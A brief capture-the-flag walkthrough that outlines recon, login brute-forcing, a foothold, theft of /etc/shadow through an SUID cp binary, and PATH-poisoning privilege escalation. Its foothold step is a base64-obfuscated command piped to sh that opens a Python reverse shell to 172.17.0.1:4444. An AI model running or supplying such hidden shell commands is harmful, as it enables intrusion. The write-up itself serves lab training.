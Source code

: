 # Walkthrough
## Recon
Navigate to ftp, grab wordlist

## Enum
Fuzz/bruteforce login for access to intern account

## Foothold 
Reverse shell via the terminal

###### Shell command
echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE3Mi4xNy4wLjEiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTsgb3MuZHVwMihzLmZpbGVubygpLDIpO3A9c3VicHJvY2Vzcy5jYWxsKFsiL2Jpbi9zaCIsIi1pIl0pOyc=" | base64 -d | sh

## Lateral Move
Manager own SUID cp. cp the /etc/shadow file and crack hash with provided wordlist

## Priv esc
Path poison runme

# Feast of eternal glory